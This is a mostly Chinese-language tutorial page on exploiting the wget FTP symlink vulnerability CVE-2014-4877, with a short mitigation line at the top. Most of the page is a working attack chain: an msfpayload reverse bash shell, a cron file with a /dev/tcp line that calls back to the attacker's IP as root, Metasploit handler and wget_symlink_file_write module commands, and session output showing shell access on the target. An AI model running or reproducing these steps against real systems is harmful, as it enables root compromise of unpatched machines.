 ```yaml
---
layout: default
title: Wget-FTP-Attack-Vulnerability
---
```

<h2>{{ page.title }}</h2>

Wget-FTP-Attack-Vulnerability

Intro
===

>The flaw is triggered when wget receives a directory listing that includes a symlink followed by a directory with the same name.

#修复

    Upgrade to wget version 1.16 or a package that has backported the CVE-2014-4877 patch. If you use a distribution that does not ship a patched version of wget, you can mitigate the issue by adding the line “retr-symlinks=on” to either /etc/wgetrc or ~/.wgetrc.

#利用教程

##建立一个计划任务文件脚本

![msfpayload](https://38.media.tumblr.com/d3d2e79645b196345511d219e17ca39e/tumblr_nefu19ne0O1r68ev5o1_1280.png)

`msfpayload cmd/unix/reverse_bash LHOST=172.16.68.132 LPORT=4444 R`

    0<&66-;exec 66<>/dev/tcp/172.16.68.132/4444;sh <&66 >&66 2>&66r

![cronshell](https://33.media.tumblr.com/35a25081402967b01ef397e705655ec0/tumblr_nefu19ne0O1r68ev5o2_1280.png)

`cat cronshell`

    PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
    * * * * * root bash -c '0<&63-;exec 63<>/dev/tcp/172.16.68.132/4444;sh <&63 >&63 2>&63'; rm -f /etc/cron.d/cronshell

##配置本地监听

![locallisten](https://38.media.tumblr.com/ef91100a1142ab45e42af23e29a54187/tumblr_nefu19ne0O1r68ev5o3_1280.png)


    msf > use exploit/multi/handler                                                
    msf exploit(handler) > set PAYLOAD cmd/unix/reverse_bash                    
    PAYLOAD => cmd/unix/reverse_bash                                               
    msf exploit(handler) > set LHOST 172.16.68.132                                 
    LHOST => 172.16.68.132                                                         
    msf exploit(handler) > set LPORT 4444                                          
    LPORT => 4444                                                                  
    msf exploit(handler) > run -j                                                  
    [*] Exploit running as background job.                                         

    [*] Started reverse handler on 172.16.68.132:4444                              

    [*] Starting the payload handler...                                            
    msf exploit(handler) >  

##搭建一个匿名攻击ftp

![ftp](https://38.media.tumblr.com/a79c60eb6b5916b25fcf159f2f77dbc2/tumblr_nefucn1iM11r68ev5o1_1280.png)

    msf exploit(handler) > use auxiliary/server/wget_symlink_file_write                                                               
    msf auxiliary(wget_symlink_file_write) > set TARGET_FILE /etc/cron.d/cronshell
    TARGET_FILE => /etc/cron.d/cronshell                                        
    msf auxiliary(wget_symlink_file_write) > set TARGET_DATA file:cronshell     
    TARGET_DATA => file:cronshell                                               
    msf auxiliary(wget_symlink_file_write) > set SRVPORT 21                     
    SRVPORT => 21                                                               
    msf auxiliary(wget_symlink_file_write) > run                                
    [*] Auxiliary module execution completed                                    

    [+] Targets should run: $ wget -m ftp://172.16.68.132:21/                   
    [*] Server started.

##目标利用

![target](https://31.media.tumblr.com/fe5dc749c0087036d9df14c7c6ddb56d/tumblr_nefu19ne0O1r68ev5o5_1280.png)
![target](https://33.media.tumblr.com/7e331d6526543ca4d6b4365930b6d0c6/tumblr_nefu19ne0O1r68ev5o6_1280.png)


    [*] Server started.                                                         
    msf auxiliary(wget_symlink_file_write) > [*] 172.16.17.119:56396 Logged in with user 'anonymous' and password 'anonymous'...
    [*] 172.16.17.119:56396 -> LIST -a                                          
    [*] 172.16.17.119:56396 -> CWD /4BDZLdr5AdsK                                
    [*] 172.16.17.119:56396 -> LIST -a                                          
    [*] 172.16.17.119:56396 -> RETR cronshell                                   
    [+] 172.16.17.119:56396 Hopefully wrote 183 bytes to /etc/cron.d/cronshell  
    [*] Command shell session 1 opened (172.16.68.132:4444 -> 172.16.17.119:54412) at 2014-10-31 04:13:01 -0400
    sessions                                                                    

    Active sessions                                                             
    ===============                                                             

    Id  Type        Information  Connection                                     
    --  ----        -----------  ----------                                     
    1   shell unix               172.16.68.132:4444 -> 172.16.17.119:54412 (172.16.17.119)

    msf auxiliary(wget_symlink_file_write) > sessions -i 1                      
    [*] Starting interaction with 1...                                          

    ip a                                                                        
    1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default 
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00                   
        inet 127.0.0.1/8 scope host lo                                          
        valid_lft forever preferred_lft forever                                 
        inet6 ::1/128 scope host                                                
        valid_lft forever preferred_lft forever                                 
    2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
        link/ether 00:0c:29:21:5b:1c brd ff:ff:ff:ff:ff:ff                      
        inet 172.16.17.119/24 brd 172.16.17.255 scope global eth0               
        valid_lft forever preferred_lft forever         

#利用条件

>目标机开启crontab 和利用wget递归下载


#引用

[url1](http://bobao.360.cn/learning/detail/72.html)

[url2](https://community.rapid7.com/community/metasploit/blog/2014/10/28/r7-2014-15-gnu-wget-ftp-symlink-arbitrary-filesystem-access)

[url3](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/server/wget_symlink_file_write.rb)
